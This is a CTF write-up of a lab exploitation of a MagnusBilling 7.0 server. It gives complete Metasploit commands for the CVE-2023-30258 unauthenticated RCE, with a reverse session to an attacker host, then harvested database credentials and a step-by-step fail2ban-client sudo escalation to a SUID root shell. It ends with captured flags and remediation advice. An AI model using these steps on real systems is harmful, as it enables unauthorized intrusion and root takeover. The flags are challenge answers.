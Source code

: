 # MagnusBilling 7.0 CTF Write-up

## Summary
This report documents the exploitation of a MagnusBilling v7.0 server during a Capture The Flag (CTF) challenge. A critical unauthenticated RCE vulnerability (CVE-2023-30258) was used to gain a foothold on the server, followed by a privilege escalation leveraging misconfigured sudo permissions on `fail2ban-client`.

---

### Target Information

- **Target IP**: 10.10.19.151  
- **Platform**: Linux  
- **Web Application**: MagnusBilling v7.0  
- **Vulnerabilities Exploited**:  
  - CVE-2023-30258 (Unauthenticated Remote Code Execution)  
  - Misconfigured Fail2Ban (Local Privilege Escalation)  
  - Hardcoded database credentials

---

### Phase 1: Initial Compromise

#### Network Reconnaissance
```bash
nmap -sV -sC 10.10.19.151
```

Discovered HTTP service on port 80 running MagnusBilling.

#### Vulnerability Research
Identified public exploit for unauthenticated RCE:

•	Rapid7 Module: exploit/linux/http/magnusbilling_unauth_rce_cve_2023_30258

A Metasploit module is available:
```
exploit/linux/http/magnusbilling_unauth_rce_cve_2023_30258
```

#### Exploitation
```bash
msf6 > use exploit/linux/http/magnusbilling_unauth_rce_cve_2023_30258
msf6 exploit() > set RHOSTS 10.10.19.151
msf6 exploit() > set LHOST 10.9.3.170
msf6 exploit() > set TARGET 0
msf6 exploit() > exploit
```
**Result**: Meterpreter session obtained as user `asterisk`.

---

### Phase 2: Post-Exploitation

### User Flag
```bash
meterpreter > cat /home/magnus/user.txt
```
**User Flag**: `THM{4a6831d5f124b25eefb1e92e0f0da4ca}`

### Credential Discovery

Found credentials in `/etc/asterisk/res_config_mysql.conf`:
```
dbhost = 127.0.0.1  
dbname = mbilling  
dbuser = mbillingUser  
dbpass = BLOGYwvtJkI7uaX5
```

---

### Privilege Escalation

#### Check sudo permissions:
```bash
sudo -l
```
Output:
```
User asterisk may run the following commands on Billing:
    (ALL) NOPASSWD: /usr/bin/fail2ban-client
```

#### Local Privilege Escalation with `fail2ban-client`

**1. Copy Fail2Ban config:**
```bash
rsync -av /etc/fail2ban/ /tmp/fail2ban/
```

**2. Create payload script:**
```bash
cat > /tmp/script <<EOF
#!/bin/sh
cp /bin/bash /tmp/bash
chmod 755 /tmp/bash
chmod u+s /tmp/bash
EOF
chmod +x /tmp/script
```

**3. Custom action config:**
```bash
cat > /tmp/fail2ban/action.d/custom-start-command.conf <<EOF
[Definition]
actionstart = /tmp/script
EOF
```

**4. Create custom jail:**
```bash
cat >> /tmp/fail2ban/jail.local <<EOF
[my-custom-jail]
enabled = true
action = custom-start-command
EOF
```

**5. Restart Fail2Ban with custom config:**
```bash
sudo fail2ban-client -c /tmp/fail2ban/ -v restart
```

**6. Run the SUID shell:**
```bash
/tmp/bash -p
```

---

### Root Flag
```bash
cat /root/root.txt
```
**Flag**: `THM{33ad5b530e71a172648f424ec23fae60}`

---

## Attack Flow (Graph)

```mermaid
graph TD
    A[Network Scan] --> B[Identify MagnusBilling]
    B --> C[Exploit CVE-2023-30258]
    C --> D[Meterpreter as asterisk]
    D --> E[Discover Sudo Privileges]
    E --> F[Exploit Fail2Ban Client]
    F --> G[Root Access]
```

---

## Critical Findings

| Vulnerability                         | Risk      | Impact                  |
|--------------------------------------|-----------|--------------------------|
| CVE-2023-30258 (Unauthenticated RCE) | Critical  | Full system compromise  |
| Fail2Ban misconfiguration            | High      | Local privilege escalation to root |
| Hardcoded DB credentials             | Medium    | Potential data theft or DB tampering |

---

## Remediation Recommendations

### 🔧 Immediate Actions
- Patch MagnusBilling to the latest version.
- Revoke NOPASSWD sudo privileges for `fail2ban-client`.
- Rotate all credentials found in configuration files.

### Long-Term Improvements
- Enforce least privilege principle across all services.
- Perform regular vulnerability scans and patch assessments.
- Apply application allowlisting and endpoint protection.

### Defensive Measures
- Restrict remote access to admin interfaces.
- Monitor sudo activity and critical file access logs.
- Deploy a host-based intrusion detection system (HIDS).

---

## Appendices

### Technical References
- [CVE-2023-30258](https://nvd.nist.gov/vuln/detail/CVE-2023-30258)
- [Fail2Ban Local Privilege Escalation](https://juggernaut-sec.com/fail2ban-lpe/)

---

## Timeline
- **Discovery**: 2025-03-25  
- **Exploitation**: 2025-03-25  
- **Report Generated**: 2025-03-26
